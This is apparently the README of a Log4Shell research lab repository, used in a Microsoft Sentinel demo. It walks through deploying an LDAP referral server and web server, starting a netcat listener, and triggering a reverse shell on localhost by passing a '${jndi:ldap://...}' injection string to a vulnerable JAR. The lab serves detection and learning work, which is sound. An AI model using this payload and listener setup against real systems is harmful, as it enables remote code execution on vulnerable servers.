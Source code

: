 # Log4j RCE Research Lab 🚧

A basic research lab to learn more about `Log4Shell`:
* [CVE-2021-45105](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45105
* [CVE-2021-45046](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046)
* [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228).

## Used By

* [Microsoft Sentinel To-Go! CVE-2021-44228-Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
sudo su
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f MarshalsecLDAP-NginxWebServer.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Docker**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manual**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Security Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master